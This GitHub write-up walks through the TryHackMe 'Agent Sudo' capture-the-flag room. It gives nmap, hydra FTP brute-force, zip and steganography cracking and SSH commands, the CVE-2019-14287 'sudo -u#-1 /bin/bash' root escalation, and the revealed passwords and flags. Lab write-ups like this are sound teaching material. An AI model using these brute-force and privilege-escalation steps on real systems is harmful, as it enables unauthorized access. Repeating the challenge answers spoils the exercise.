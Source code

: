 ![Agent Sudo Banner](https://tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cover.png" alt="Agent Sudo Logo">
</p>

# Agent Sudo

This guide contains the answer and steps necessary to get to them for the [Agent Sudo](https://tryhackme.com/room/agentsudoctf) room.

## Table of contents

- [Enumerate](#enumerate)
- [Hash cracking and brute-force](#hash-cracking-and-brute-force)
- [Capture the user flag](#capture-the-user-flag)
- [Privilege escalation ](#privilege-escalation)

![FTP Password](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_FTP_Password.png)
![Foxy Proxy](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Foxy_Proxy.png)
![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Nmap_Scan.png)
![Webpage](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Web_Page.png)
![Web Page R](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Web_Page_R.png)

### Enumerate


![Burp Suite Agent C](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Burp_Suite_Agent_C.png)
![Burp Suite Agent R](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Burp_Suite_Agent_R.png)
![Burp Suite Config](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Burp_Suite_Config.png)
![Burp Suite Intruder Config](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Burp_Suite_Intruder_Config.png)
![Burp Suite Intruder Payload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Burp_Suite_Intruder_Payload.png)
![Burp Suite Results](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Burp_Suite_Results.png)
![Burp Suite Intruder](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Burp_Suite_To_Intruder.png)
![Burp Suite Webpage](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Burp_Suite_Web_Page_C.png)

**IP Adress:** 10.10.203.242

1. How many open ports?

   nmap -sV 10.10.203.242


   ><details><summary>Click for answer</summary>3</details>

2. How you redirect yourself to a secret page?

   Another way is to use curl -A "User-agent"

   ><details><summary>Click for answer</summary>user-agent</details>

3. What is the agent name?



   ><details><summary>Click for answer</summary>chris</details>

### Hash cracking and brute-force

![Cracking Cyberchef](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_CyberChef.png)
![Cracking Extract Image](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_Extract_Image.png)
![Cracking FTP Download](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_FTP_Download.png)
![Cracking FTP Login](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_FTP_Login.png)
![Cracking Fcracking](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_Fcrackzip.png)
![Cracking PNG Strings](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_PNG_strings.png)
![Cracking Steg Message](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_Steg_Message.png)
![Cracking Steg Text](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_Steg_Text.png)
![Cracking Text File](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_Text_File.png)
![Cracking Zip John](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_Zip_John.png)
![Cracking Zip Message](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cracking_Zip_Message.png)


1. FTP password

   hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.203.242 -t 4


   ><details><summary>Click for answer</summary>crystal</details>

2. Zip file password

   The two images don't tell us much. The text file, however, gives us some clues as to what we might need to do next.
   
   CRACKING TEXT FILE
   
   Lets start with the jpg file. Using steghide we stry to find anything hidden, but unfortunately we need a passphrase and the png file doesn't seem to give us contain anything. Using strings does give us some clues that something is hidden inside.
   
   ```cmd
   strings cutie.png
   ```
   
   CRACKING PNG STRINGS
   
   We can try using `binwalk` to get anything from it.
   
   ```cmd
   binwalk cutie.png -e
   ```
   
   CRACKING EXTRACT IMAGE
   
   Looks like there are some files and a zip archive hidden inside. Looking at the text file and the other two files gives us nothing. Neither when using `file` or `strings`. The zip file on the other hand does seem to contain a note. However, it is password protected. We can use `fcrackzip` to try a crack the password
   
   ```cmd
   fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt _cutie.png.extracted/8702.zip
   ```
   
   CRACKING FCRACKZIP
   
   Unfortunately, it couldn't find the password. Next thing to try is `john`. But we first need to create a hash from the zipfile using `zip2john`. Then we can use it in John.
   
   ```cmd
   zip2john _cutie.png.extracted/8702.zip > ziphash.txt
   
   john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
   ```
   
   CRACKING ZIP JOHN
   
   With the password found, we can open the textfile and read its contents.
   
   CRACKING ZIP MESSAGE
   
   The name seems to be base64 encoded. Using Cyberchef this gives us Area51.
   
   CRACKING CYBERCHEF

   ><details><summary>Click for answer</summary>alien</details>

3. steg password

stegseek --crack -sf cute-alien.jpg -wl /usr/share/wordlists/rockyou.txt 

   ><details><summary>Click for answer</summary>Area51</details>

4. Who is the other agent (in full name)?



   ><details><summary>Click for answer</summary>James</details>

5. SSH password



   ><details><summary>Click for answer</summary>hackerrules!</details>

### Capture the user flag

![Capture Capture Download Image SSH](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Capture_Download_Image_SSH.png)
![Capture Image Event](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Capture_Image_Event.png)
![Capture Reverse Search](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Capture_Image_Reverse_Search.png)
![Capture SSH Image](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Capture_SSH_Image.png)
![Capture SSH Login](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Capture_SSH_Login.png)
![Capture User Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Capture_User_Flag.png)


1. What is the user flag?

   Using username chris doesn't allow us to log in with SSH and the password we found. James, however, does work.
   
   ```cmd
   ssh james@10.10.186.39
   ```
   
   CAPTURE SSH LOGIN
   
   Looking through the directory we can see the user flag and read its contents.
   
   CAPTURE USER FLAG

   ><details><summary>Click for answer</summary>b03d975e8c92a7c04146cfa7a5a313c7</details>

2. What is the incident of the photo called?

   We can download the image through `scp`.
   
   ```cmd
   scp james@10.10.186.39:/home/james/Alien_autospy.jpg Alien_autospy.jpg 
   ```
   
   CAPTURE DOWNLOAD IMAGE SSH
   
   

   ><details><summary>Click for answer</summary>Roswell alien autopsy</details>

### Privilege escalation 

![Privesc Permissions](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Privesc_Permissions.png)
![Privesc Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Privesc_Root_Flag.png)
![Privesc Sudo Bash](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Privesc_Sudo_Bash.png)
![Privesc Sudo Exploit](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Privesc_Sudo_Exploit.png)
![Privesc Sudo Root](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Privesc_Sudo_Root.png)
![Privesc Sudo Version](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Privesc_Sudo_Version.png)

sudo -l
sudo -V
sudo /bin/bash
sudo -u#-1 /bin/bash


1. CVE number for the escalation 

   PRIVESC PERMISSIONS
   
   PRIVESC SUDO BASH
   
   PRIVESC SUDO EXPLOIT

   ><details><summary>Click for answer</summary>CVE-2019-14287</details>

2. What is the root flag?

   PRIVESC SUDO VERSION
   
   PRIVESC SUDO ROOT
   
   PRIVESC SUDO FLAG

   ><details><summary>Click for answer</summary>b53a02f55b57d4439e3341834d70c062</details>

3. (Bonus) Who is Agent R?



   ><details><summary>Click for answer</summary>DesKel</details>
